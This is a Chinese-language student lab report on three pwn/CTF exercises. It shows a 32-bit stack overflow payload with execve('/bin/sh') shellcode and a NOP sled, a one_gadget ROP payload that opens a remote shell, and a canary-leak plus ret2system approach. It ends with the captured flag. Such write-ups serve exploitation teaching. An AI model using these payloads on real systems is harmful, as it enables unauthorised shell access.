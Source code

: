 # Pwn Lab2 Report

## task 1

将 `BUF_SIZE` 改为 40。

单步调试进入 bof 函数内部，调用 `strcpy(buffer, str)` 时第二个 push 入栈的即为 buffer 地址，可以知道栈上分配了 0x32 字节的空间，可利用栈溢出修改返回地址为栈上地址。

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled.png)

bof 函数的返回地址在存储在 ebp + 4 的位置，将其修改为 ebp + 8，即0xffffb8c0。为了提高命中概率，将 shellcode 放在 4096 个缓冲区字节的末尾，其余部分除返回地址外置为 0x90(nop) 。payload 如下：

```python
shell_asm = """ 
    push   0x0            
    push   0x68732f2f     
    push   0x6e69622f     
    mov    ebx, esp      
    xor    ecx, ecx       
    xor    edx, edx       
    mov    eax, 0xb       
    int    0x80           
"""

shell_code = asm(shell_asm)

with open('badfile', 'wb') as f:
    data = b'\x90' * (0x32 + 4)
    data += p32(0xffffb8e0)
    data += b'\x90' * (4096 - len(shell_code) - len(data))
    data += shell_code
    f.write(data)
```

利用 `loop.sh` 执行结果如下：

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%201.png)

## task 2

利用 one_gadget 获取库文件中可以弹shell的段。

```bash
➜  ropbaby git:(master) ✗ one_gadget libc.so 
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

利用 gdb 调试获得各个寄存器在 main 函数 ret 时的状态，选择第二个 gadget 即0x4f302 作为返回地址。

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%202.png)

第二次 payload 如下：

```bash
payload = b"B" * 0x58
bin_sh_addr = next(libc.search(b"/bin/sh"))
payload += p64(libc_base_addr + 0x4F2A5)
```

可以打通远程获取 shell：

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%203.png)

## task 3

观察 ida 代码，注意到 read 读取的是一个无符号数，可以通过输入负数来实现栈溢出。

```bash
for ( i = 0; i <= 3; ++i )
  {
    memset(nbytes_4, 0, 0x100uLL);
    printf("size> ");
    read(0, nbytes_4, 0xFuLL);
    nbytes = atoi(nbytes_4);
    if ( nbytes <= 256 )
    {
      memset(nbytes_4, 0, 0x100uLL);
      read(0, nbytes_4, (unsigned int)nbytes);
    }
    puts(nbytes_4);
  }
```

- 第一次输入利用栈溢出获取 cannary 数值
- 第二次输入获取 ret 返回地址，通过该地址可以获得实际运行时内存中 `lib` 的加载地址
- 第三次输入不限
- 第四次利用第一次获得的 cannary 数值实现栈保护绕过，`lib` 库自身存在 `system` 函数和 `/bin/sh` 字符串，利用 `pwntools` 提供的自动化工具实现返回地址跳转

获得 flag 为 AAA{You_n0w_Can_sP3Ed_ruN_s0mE_ReAL_B4sIC_CtF_b0F_CH@1LEN6ES}。

![Untitled](Pwn%20Lab2%20Report%20722e764e28c64a6e91d117ae200de6f2/Untitled%204.png)